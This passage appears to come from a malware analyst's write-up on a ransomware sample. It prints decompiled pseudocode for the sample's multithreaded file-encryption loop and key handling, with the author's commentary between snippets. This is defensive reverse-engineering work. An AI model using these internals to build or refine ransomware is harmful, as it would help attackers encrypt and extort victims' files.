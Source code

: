 ```cpp
  LOBYTE(v2) = 1;
  WaitForMultipleObjects(nCount, encryptFileThreads, v2, 0xFFFFFFFF);
  USER_KEY = GetEncryptedKeyAsBase64();
  FreeHeapMemory(encryptFileThreads);
  RtlZeroMemory_0(fileEncryptionKey, 32i64);
  FreeHeapMemory(fileEncryptionKey);
  FreeHeapMemory(folderPath);
  return UnloadMutex();
}
```

<aside>
✅

I am writing this part of the text after I finished understanding the file encryption algorithm and completed the final assignment, so further snippets will be as detailed and clear as possible

</aside>

The virus forms the string `C:\Windows\Users\*` and starts searching for files suitable for encryption (those with the above-mentioned extensions).

We can see that separate threads are used for encryption, let's go to the corresponding function:

```cpp
__int64 CreateEncryptFileThreads()
{
  DWORD i; // [rsp+30h] [rbp-18h]
  __int64 MemoryFromHeap; // [rsp+38h] [rbp-10h]

  sub_7FF749A78940();
  MemoryFromHeap = AllocateMemoryFromHeap(16 * nCount);
  for ( i = 0; i < 2 * nCount; ++i )
    *(MemoryFromHeap + 8i64 * i) = CreateThread(0i64, 0i64, EncryptFileThread, 0i64, 0, 0i64);
  return MemoryFromHeap;
}
```

Just starting threads, jumping into the next one:

```cpp
pFileDataUnkn *__fastcall EncryptFileThread(LPVOID lpThreadParameter)
{
  pFileDataUnkn *result; // rax
  __int64 v2; // [rsp+38h] [rbp-20h]

  while ( 1 )
  {
    RtlEnterCriticalSection(&CriticalSection);
    while ( !currentFileEncrypt.prev && encryptFileMutex )
      SleepConditionVariableCS(&ConditionVariable, &CriticalSection, 0xFFFFFFFF);
    if ( !currentFileEncrypt.prev && !encryptFileMutex )
      break;
    v2 = *(currentFileEncrypt.next->next + 16);
    FilePathDestroyNode(&currentFileEncrypt, currentFileEncrypt.next->next);
    RtlLeaveCriticalSection(&CriticalSection);
    thunk_EncryptFile(v2);
    result = currentFileEncrypt.prev;
    if ( !result )
      return result;
  }
  RtlLeaveCriticalSection(&CriticalSection);
  return RtlWakeConditionVariable(&ConditionVariable);
}
```
